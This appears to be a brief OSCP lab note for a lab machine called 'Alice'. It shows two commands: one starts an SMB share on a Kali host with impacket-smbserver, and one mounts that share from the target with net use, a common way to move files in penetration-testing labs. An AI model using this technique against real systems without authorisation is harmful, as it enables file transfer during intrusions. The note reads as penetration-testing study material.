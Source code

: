 # OSCP
## Lab Machines
### Alice 10.11.1.5

On Kali:
```
impacket-smbserver richeeta .
```
to create the SMB server.

On Alice:
```
net use * \\IP\\richeeta
```
